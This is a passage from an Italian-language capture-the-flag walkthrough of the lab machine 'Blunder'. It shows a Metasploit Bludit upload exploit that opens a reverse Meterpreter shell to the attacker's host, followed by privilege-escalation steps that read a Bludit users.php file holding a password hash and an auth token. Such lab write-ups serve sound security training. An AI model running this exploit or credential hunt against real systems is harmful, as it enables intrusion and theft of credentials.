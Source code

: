 ed eseguiamo 
```shell-session

msf6 exploit(linux/http/bludit_upload_images_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading refxkvlxsq.png...
[*] Uploading .htaccess...
[*] Executing refxkvlxsq.png...
[*] Sending stage (39927 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.191:34578) at 2023-10-26 10:16:19 -0400

meterpreter > getuid
Server username: www-data
```

siamo pronti per la privesc.
# PRIVESC

# www-data --> hugo

Nella cartella `/home` abbiamo due utenti `hugo` e `shaun`
```bash
www-data@blunder:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Apr 27  2020 .
drwxr-xr-x 21 root  root  4096 Jul  6  2021 ..
drwxr-xr-x 16 hugo  hugo  4096 May 26  2020 hugo
drwxr-xr-x 16 shaun shaun 4096 Jul  6  2021 shaun
www-data@blunder:cd /hugo
www-data@blunder:/home/hugo$ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
www-data@blunder:/home/hugo$ cat user.txt
cat: user.txt: Permission denied
```

Non abbiamo i permessi per leggere la user_flag.
Dobbiamo elevare i nostri privilegi.

Nella directory /var/www troviamo  le configurazioni web. Interessante, c'erano due versioni di Bludit lì:
Esplorando nella configurazioni  al percorso `/var/www/bludit-3.10.0a/bl-content/databases` troviamo un file `users.php` con delle credenziali.

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
```